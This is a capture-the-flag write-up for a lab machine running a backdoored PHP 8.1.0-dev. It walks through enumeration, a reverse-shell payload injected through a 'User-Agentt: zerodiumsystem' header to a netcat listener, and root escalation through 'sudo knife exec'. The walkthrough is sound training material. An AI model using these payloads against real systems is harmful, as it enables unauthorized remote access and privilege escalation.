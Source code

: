 ##Phase 1: Enumeration

As always we start off with an nmap scan:


Nmap didn't show any outdated services, so we can check out the website
Visiting 10.10.10.242 we can see that it's a static page - nothing interesting there: 
> Checking the source code with ctrl+u doesn't show anything interesting either, however
> After going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

##Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:
(image)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 
(image)
I then navigated to home/james and used ```cat user.txt``` to obtain the user flag
(user flag image)

##Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!
(image of sudo-l)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag
(root flag image)

And the box is complete!
